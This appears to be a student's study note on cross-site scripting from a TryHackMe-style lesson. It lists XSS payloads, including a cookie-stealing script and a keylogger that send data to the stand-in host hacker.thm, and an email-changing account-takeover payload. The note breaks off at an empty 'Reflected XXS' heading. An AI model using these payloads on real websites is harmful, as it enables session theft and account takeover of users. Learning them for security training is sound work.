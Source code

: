 #review 

XXS is based on JavaScript, it is helpful to have a basic understanding of the language

Cross-Site Scripting, better known as XSS in the cybersecurity community, is ==classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. ==

# XSS Payloads

In XSS the payload is the JavaScript code we wish to execute on the targets computer

The intention is what you wish to JavaScript to actually do and the modification is the changes to the code we need to make it execute as every scenario is different. 

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

``` javascript
<script>alert('XSS');</script>
```

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

``` javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

``` javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

# Reflected XXS

